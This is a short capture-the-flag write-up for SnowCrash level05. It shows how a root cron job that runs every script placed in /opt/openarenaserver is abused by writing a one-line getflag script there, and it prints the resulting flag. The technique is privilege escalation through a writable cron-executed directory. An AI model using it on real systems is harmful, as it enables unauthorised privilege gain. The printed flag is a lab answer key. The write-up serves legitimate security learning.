 When logging to level 5 we have the message:
`You have a mail.

```
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
By looking at the cron task we can see that every 2minutes the script /usr/sbin/openarenaserver is executed by flag05

We openend the file `openarenaserver` with cat:
```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

The system executes every script placed into the /opt/openarenaserver directory and then deletes it.
We can't use vim to write a script there because we don't have rights, but can use this behavior to build an exploit.

`echo "getflag > /tmp/getflag" > /opt/openarenaserver/getflag.sh`

and we wait 2mn for the script to execut.
then we just have to do: 
```
flag01@SnowCrash:~$ cat /tmp/getflag
f2av5il02puano7naaf6adaaf
```